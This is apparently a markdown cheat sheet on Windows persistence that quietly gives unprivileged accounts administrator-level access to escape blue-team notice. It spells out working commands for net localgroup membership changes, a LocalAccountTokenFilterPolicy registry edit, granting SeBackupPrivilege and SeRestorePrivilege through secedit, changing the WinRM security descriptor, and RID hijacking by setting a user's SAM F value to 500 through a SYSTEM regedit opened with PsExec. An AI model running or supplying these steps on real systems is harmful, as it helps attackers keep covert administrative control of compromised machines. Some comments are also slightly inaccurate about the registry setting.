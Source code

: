 # make Unprivileged users to have cirtical access
Having an administrator's credential would be the easiest way to achieve persistence in a machine. However, to make it harder for the blue team to detect us, we can manipulate unprivileged users, which usually won't be monitored as much as administrators, and grant them administrative privileges somehow.


## Assign Group Memberships
- **Administrator Group**:
```ps1
# make it part of the Administrators group But this looks too suspicious
net localgroup administrators <Unpriv-username> /add
```
- **BackupOperators Group**:
```ps1
#  make it part of the BackupOperators group. Users in this group will be allowed to read/write any file or registry key, ignoring DACL
net localgroup "Backup Operators" <Unpriv-username> /add
# it still cannot RDP or WinRM back to the machine, we add it to the Remote Desktop Users (RDP) or Remote Management Users (WinRM) groups
net localgroup "Remote Management Users" <Unpriv-username> /add
# we are a part of Backup Operators, but the group is disabled, we'll have to disable LocalAccountTokenFilterPolicy: 
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

## Special Privileges and Security Descriptors
- **Directly Assing Privileges to user in Config file**(SeBackupPrivilege, SeRestorePrivilege)
```ps1
# create backup file from privilege configuration file
secedit /export /cfg config.inf
# add the user to the lines in the configuration regarding the SeBackupPrivilege and SeRestorePrivilege in TextEditor.
# convert the .inf file into a .sdb file and then put it back, using: 
secedit /import /cfg config.inf /db config.sdb
secedit /configure /db config.sdb /cfg config.inf
# user can't log into the system via WinRM, in the configuration window for WinRM's security descriptor you can add user and assign it full privileges for WinRM::
Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
# change the LocalAccountTokenFilterPolicy registry key
```
## RID Hijacking
- **make the operating system think you are the Administrator**
  - check for assigned RIDs for any user:
  ```ps1
  wmic useraccount get name,sid
  ```
  - you are admin, so you can open the RegEdit with PSexec.exe
  ```ps1
  PsExec64.exe -i -s regedit
  ```
  - goto 'HKLM\SAM\SAM\Domains\Account\Users\'
  - search for current user RID
  - under this key you can see **F value** that holds users's RID
  - change it to **500** The next time user logs in, LSASS will associate it with the same RID as Administrator and grant them the same privileges.
